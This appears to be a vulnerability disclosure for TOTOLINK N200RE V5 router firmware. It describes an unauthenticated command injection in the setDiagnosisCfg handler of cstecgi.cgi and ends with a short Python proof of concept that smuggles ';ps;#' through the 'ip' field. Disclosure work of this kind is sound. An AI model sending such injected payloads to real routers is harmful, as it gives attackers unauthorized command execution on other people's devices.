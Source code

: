 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setDiagnosisCfg` handler function of  `cstecgi.cgi`. The value of the `ip` parameter will be spliced ​​into the `ping %s -w ...` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need auth.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "setDiagnosisCfg",
    "num": "123",
    "ip": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)